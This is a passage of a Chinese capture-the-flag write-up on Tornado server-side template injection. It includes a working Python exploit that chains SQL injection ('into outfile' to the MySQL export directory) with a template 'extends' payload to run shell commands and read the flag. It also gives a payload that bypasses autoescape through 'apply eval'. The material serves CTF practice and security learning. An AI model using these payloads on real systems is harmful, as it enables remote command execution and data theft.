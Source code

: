 以上基本上就是所有的操作名字和一些简单的使用，具体还是得等师傅们使用了之后才会明白。

#### 4 解题完成 

那么这道题到这里 就只剩下了extennds了，我们应该如何去操作这个呢？又没有什么文件给我们用，我们该咋办呢？

前面我们说过了proc目录yyds，我们就是利用前面的我们发现python是mysql用户。那么就可以直接mysql写文件，然后达到任意命令执行。下面附带上exp。

![image-20210705201552390](https://i.loli.net/2021/07/05/Zlnq9eQAcFYCXS8.png)

```
def ssti(payload1,payload2,num):
	s = requests.session()
	print(s.get(url+f"register.php?username=demo{num}&password="+payload1).text)
	print(s.get(url+f"register.php?username=demo{num}' into outfile '/var/lib/mysql-files/demo{num}&password=123").text)
	s.get(url + "login.php?username=admin&password=we111c000me_to_qwb")
	print(s.get(url+"good_job_my_ctfer.php?congratulations="+payload2).text)

if __name__ == '__main__':
	num = random.randint(3,5000)
	system = "cat /flag_qwb/flag"
	payload1 = '{% set return __import__("os").popen("'+system+'").read()%}'
	payload2 = '{% extends /var/lib/mysql-files/demo'+str(num)+' %}'
	ssti(payload1,payload2,num)
```

这样就可以和前面组成一个完整的exp。在mysql中默认导出目录为`/var/lib/mysql-files/`

### 参考资料

https://www.tornadoweb.org/en/stable/template.html?highlight=extends#tornado.template.filter_whitespace

复现环境：https://www.anquanke.com/post/id/244153 感谢大佬开源
 ### 三 提升

下面我们把环境中的黑名单全部撤销掉。来一个一个尝试一下刚才所发的所有payload

首先是简简单单的`inlcude`:

![image-20210705225330835](https://i.loli.net/2021/07/05/vLkRDbuxW4pYCiG.png)

可以看到用法和extends是一样的。

![image-20210705235306152](https://i.loli.net/2021/07/05/6jVzmo2DRf4EbXs.png)每一个禁止的函数都还可以玩。

这里我只是单独地说一下，有关于include的，里面引入的代码会自动解析`{{}}`标签，我们不能将之抹去，那么利用的时候用上来payload来引入文件即可。

`bypass autoescape`：

![image-20210706001852164](https://i.loli.net/2021/07/06/Xloujy78AnEa6it.png)

```
payload = """{% autoescape None %}{% apply eval %}{% set a="__import__(\\\"os\\\").popen(\\\"dir\\\").read()" %}{% end %}"""
```

上传html module联合

还可以继续挖 ：https://www.tornadoweb.org/en/stable/template.html